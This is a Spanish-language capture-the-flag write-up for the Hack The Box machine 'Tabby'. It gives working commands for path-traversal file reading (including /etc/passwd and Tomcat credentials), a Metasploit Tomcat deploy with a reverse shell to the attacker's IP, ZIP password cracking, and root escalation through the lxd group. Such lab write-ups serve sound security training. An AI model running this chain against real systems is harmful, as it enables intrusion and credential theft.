

# Tabby

**OS**: Linux \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Local File Inclusion (LFI)
- Apache Tomcat Manager Application Deployer (exploit)
- Zip2john
- Lxd Privilege Escalation

## Nmap Scan

`nmap -Pn -sV -sC 10.10.10.194`

```
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.071s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

La salida del escaneo nos regresa un nombre de dominio llamado **megahosting.htb**, lo agregamos a nuestro archivo **/etc/hosts**.

Después de agregar el dominio podemos ver que en el apartado **NEWS** existe un parámetro llamado **file**.

`http://megahosting.htb/news.php?file=statement`


La aplicación que está en el puerto 8080 es un tomcat a la cual no podemos acceder, ya que no contamos con credenciales.

`http://10.10.10.194:8080/host-manager/html`


### Local File Inclusion

Nos percatamos que el parámetro **file** es vulnerable a **LFI**, ya que nos regresa el archivo **passwd**.

`view-source:http://megahosting.htb/news.php?file=../../../../etc/passwd`


Intentando obtener el contenido de los archivos de configuración tomcat por fin damos con la ruta correcta que contiene las credenciales.

`view-source:http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml`


### Apache Tomcat Manager Application Deployer

Usaremos un módulo de **metasploit** para conseguir nuestra shell.

```
use exploit/multi/http/tomcat_mgr_deploy
set httpPassword '$3cureP4s5w0rd123!'
set httpUsername 'tomcat'
set PATH /manager/text
set rhosts 10.10.10.194
set rport 8080
set lhost 10.10.15.251
set lport 1234
set target 1
set FingerprintCheck false
```



- `run`
- `getuid`


## Escalada de Privilegios (User)

Enumerando los directorios nos encontramos con un archivo ZIP, el cual descargamos.

- `ls /var/www/html/files`
- `download /var/www/html/files/16162020_backup.zip`


Al intentar descomprimir el ZIP nos pide un password, obtendremos el password utilizando **zip2john** y **john**.

### Zip2john

`sudo zip2john 16162020_backup.zip > hash.txt`


`sudo john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt`


Con el password podemos descomprimir el archivo ZIP pero no hay nada nuevo por lo tanto procedemos a utilizarlo con el usuario ash.

- `shell`
- `python3 -c "import pty;pty.spawn('/bin/bash')"`
- `su ash`


## Escalada de Privilegios (Root)

Podemos ver que el usuario ash pertenece al grupo **lxd**. Investigando sobre ese grupo llegamos a este [articulo](https://www.hackingarticles.in/lxd-privilege-escalation/) que nos explica como tomar ventaja de eso.

### Lxd Privilege Escalation

Descargamos el repositorio para construir nuestra imagen.

`git clone  https://github.com/saghul/lxd-alpine-builder.git`


Construimos nuestro imagen alpine.

`sudo ./build-alpine`


Levantamos nuestro servidor web y descargamos el archivo desde la máquina.

- `sudo python3 -m http.server 80`
- `wget http://10.10.15.251/alpine-v3.12-x86_64-20200621_1012.tar.gz`


Iniciamos el proceso de configuración de **lxd** y en la parte de **storage backend** escribiremos **dir**, todo lo demás se quedará en default.

`lxd init`


Importamos nuestra imagen y la configuramos.

- `lxc image import ./alpine-v3.12-x86_64-20200621_1012.tar.gz --alias doom`
- `lxc image list`
- `lxc init doom ignite -c security.privileged=true`
- `lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`
- `lxc start ignite`


Obtenemos nuestra shell como root a través de nuestra imagen y podemos acceder a los directorios del sistema, ya que los montamos en la ruta **/mnt/root**.

- `lxc exec ignite /bin/sh`
- `id`
- `cd /mnt/root/root`


## Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion \
https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_deploy \
https://www.hackingarticles.in/lxd-privilege-escalation/